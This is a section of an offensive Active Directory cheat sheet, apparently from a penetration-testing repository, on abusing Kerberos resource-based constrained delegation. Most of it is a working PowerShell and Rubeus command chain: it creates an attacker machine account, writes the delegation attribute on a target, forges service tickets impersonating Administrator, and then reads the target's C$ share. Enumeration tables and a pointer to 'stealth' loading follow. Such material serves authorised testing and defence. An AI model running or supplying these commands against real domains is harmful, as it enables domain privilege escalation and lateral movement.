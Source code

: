 
## ⚔️ Execution

### Resource-Based Constrained Delegation (RBCD)
```powershell
# 1) Create attacker-controlled machine account (PowerMad or net)
# New-MachineAccount -MachineAccount attacker$ -Password 'P@ssw0rd!' -Verbose

# 2) Set msDS-AllowedToActOnBehalfOfOtherIdentity on TARGET computer to attacker machine
# Using PowerView (dev) style
$SID = (Get-DomainComputer attacker$).objectsid
$sddl = "O:BAD:(A;;GR;;;${SID})(A;;GW;;;${SID})"
Set-DomainObject -Identity 'TARGET$' -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$sddl}

# 3) S4U2Self + S4U2Proxy with Rubeus from attacker machine account
.\Rubeus.exe s4u /user:attacker$ /rc4:<attacker_machine_NTLM> \
  /impersonateuser:Administrator /msdsspn:cifs/TARGET.domain.local /ptt

# 4) Use injected service ticket
ls \\TARGET\c$\
```
- For constrained/unconstrained workflows, see earlier sections and `16_Kerberos_Advanced_Attacks.md`. Detection: `11_Detection_Blue_Team.md`.

---

## At‑a‑Glance

### Command Quick‑Reference
| Focus | Tool | Example | Notes |
| - | - | - | - |
| Unconstrained | Get-DomainComputer -Unconstrained | Get-DomainComputer -Unconstrained | Critical risk
| Constrained | Get-DomainUser -TrustedToAuth | Get-DomainUser -TrustedToAuth | Scope via msDS‑AllowedToDelegateTo
| RBCD | msDS-AllowedToActOnBehalfOfOtherIdentity | Get-DomainComputer -Properties msDS-AllowedToActOnBehalfOfOtherIdentity | Parse SDDL

### Pivot Matrix
| Signal | Pivot | Goal |
| - | - | - |
| Unconstrained on app server | 26_Kerberos_Advanced_Attacks.md | TGT capture → golden path
| CD to CIFS/LDAP | 26_Kerberos_Advanced_Attacks.md | S4U2Self/Proxy file/DC access
| RBCD present | 26_Kerberos_Advanced_Attacks.md | Write SD → S4U chain

## Stealth & Loading
Use [01_Tool_Setup_Loading.md](./01_Tool_Setup_Loading.md) for stealth session and prep. Continue here with delegation‑specific discovery/abuse only.
